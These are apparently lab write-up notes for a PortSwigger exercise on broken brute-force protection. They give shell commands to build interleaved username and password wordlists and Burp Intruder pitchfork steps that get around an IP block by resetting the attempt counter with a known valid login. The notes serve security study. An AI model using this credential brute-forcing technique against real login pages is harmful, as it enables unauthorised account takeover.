






Broken brute-force protection, IP block
In this attack when we insert a valid account, the number of tries to access get reset. We can use that
1. After the 3th attempt we need to wait 1 minute, this mean that we need valid credentials at the 3th attempt
 But if we insert a valid account it gets reset
2. Send a request to Burp Intruder (PitchFork).
First we need to create the wordlists
1) Create a Password Wordlist where at 3th attempt there is a valid password
#CREATE WORDLIST WITH CANDIDATE PASSWORDS --> pass.txt, to count number of lines "grep -c ^ pass.txt"
sed '1 i\RIGHT_PASSWORD' pass.txt > pass2.txt
awk '1;!(NR%2){print "RIGHT_PASSWORD";}' pass2.txt > passwords.txt
sed '1 i\peter' pass.txt > pass2.txt; awk '1;!(NR%2){print "peter";}' pass2.txt > passwords.txt; cat passwords.txt 2) Create a Username Wordlist where at 3th attempt there is a valid username
grep -c ^ passwords.txt #number of passwords
for i in {1..90}; do echo "VICTIM_USER"; done > out.txt
sed '1 i\RIGHT_USERNAME' out.txt > out2.txt
awk '1;!(NR%2){print "RIGHT_USERNAME";}' out2.txt > users.txt
grep -c ^ "passwords.txt"
for i in {1..151}; do echo "carlos"; done > out.txt
sed '1 i\wiener' out.txt > out2.txt
awk '1;!(NR%2){print "wiener";}' out2.txt > users.txt
3. Start the attack with Burp Intruder PitchFork (matched set of input)
1) Paste usernames and passwords in the payloads (set 1 and set 2)
 3) Grep when too many login attempts are made (if happen something is gone wrong..)
 4. Correct credentias (302) are wiener:peter that we already know
 BUT there is also one with carlos! carlos:666666
Bibliography:https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block